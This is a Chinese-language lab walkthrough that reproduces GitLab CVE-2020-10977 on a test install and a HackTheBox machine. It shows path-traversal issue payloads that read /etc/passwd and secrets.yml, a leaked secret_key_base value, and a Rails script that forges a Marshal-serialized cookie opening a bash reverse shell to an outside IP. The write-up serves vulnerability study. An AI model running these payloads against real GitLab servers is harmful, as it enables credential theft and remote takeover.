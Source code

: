 # GitLab 任意文件读取导致RCE CVE-2020-10977

## 漏洞描述

GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。GitLab是由GitLabInc.开发，使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。

参考链接：

- [Hackone-Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052)
- [CVE-2020-10977-Gitlab CE/EE 任意文件读取导致远程命令执行漏洞](https://juejin.cn/post/6916343939649765389)

## 漏洞影响

```
GitLab GitLab EE >=8.5，<=12.9
GitLab GitLab CE >=8.5，<=12.9
```

## 漏洞复现

### 环境安装

```
yum -y install policycoreutils openssh-server openssh-clients postfix
```

分配给虚拟机的物理内存最好是4G。

下载gitlab安装包

- CE下载地址：https://packages.gitlab.com/gitlab/gitlab-ce
- EE下载地址：https://packages.gitlab.com/gitlab/gitlab-ee

安装

```
yum -y install ./gitlab......12_8.1.rpm
```

修改监听端口

```
vim /etc/gitlab/gitlab.rb

external_url 'http://localhost:8888'
```

重置和重启

```
gitlab-ctl reconfigure

gitlab-ctl restart
```

第一次进入会提示重置root密码

### 任意文件读取漏洞复现

创建两个项目（test1 和 test2）

![20210309-08:24:52-_By9fIt_O36viF](images/20210309-082452-_By9fIt_O36viF.png)

![20210309-08:26:10-_T98qwn_mogzsu](images/20210309-082610-_T98qwn_mogzsu.png)

在test1中新建一个issue。

内容为：

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

![20210309-08:27:10-_HGh3yK_MV8ygY](images/20210309-082710-_HGh3yK_MV8ygY.png)



创建好后，将这个issue移动到test2。

![20210309-08:27:38-_Be3jaU_f9Ff6H](images/20210309-082738-_Be3jaU_f9Ff6H.png)

如果漏洞存在，并且文件有可读权限，就会变成一个链接。因为/etc/passwd被复制到了 `/var/opt/gitlab/gitlab-rails/uploads/@hashed/4e/07/4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/ed7e8cddbc49e3746e0b9974b5393d79/passwd`

![20210309-08:28:08-_lHi6lY_aM20WQ](images/20210309-082808-_lHi6lY_aM20WQ.png)

![20210309-08:47:53-_ZpR5vy_FDXJZL](images/20210309-084753-_ZpR5vy_FDXJZL.png)

### RCE漏洞复现

根据报告[Hackone-Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052)内容，需要修改cookie，并且读取目标机器上的secret.yaml，并在本地搭建一个gitlab，将本地的gitlab环境的secret.yaml替换为目标机器上的secret.yaml，然后用gitlab的工具来生成cookie，最后携带这段cookie直接请求目标gitlab环境即可。

这里我受害机环境使用的是HackTheBox靶机[Laboratory](https://www.hackthebox.eu/home/machines/profile/298)

步骤1 利用LFI漏洞先读取secrets.yaml，来获取secret_key_base字段。

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
```

![20210309-08:54:20-_VKsHlY_bljjkV](images/20210309-085420-_VKsHlY_bljjkV.png)

![20210309-08:56:00-_JQy17p_AgTtwS](images/20210309-085600-_JQy17p_AgTtwS.png)

需要将本地的gitlab的secrets.yaml的secret_key_base字段替换为受害机的。

```
secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
```

![20210309-09:06:32-_ZQ8xH0_8WVpIV](images/20210309-090632-_ZQ8xH0_8WVpIV.png)

进入rails console：

```
gitlab-rails console 
```

使用gitlab-rails console执行以下命令，在获取到cookie之前，这些命令会在本机执行一次，所以在拿到cookie之后再监听端口。

```
request = ActionDispatch::Request.new(Rails.application.env_config)

request.env["action_dispatch.cookies_serializer"] = :marshal

cookies = request.cookie_jar

erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.248.245.171/9999 0>&1'` %>")

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)

cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

![20210309-09:19:19-_83wzq5_JvfiZX](images/20210309-091919-_83wzq5_JvfiZX.png)

![20210309-09:19:48-_F09ZMj_JR4sM5](images/20210309-091948-_F09ZMj_JR4sM5.png)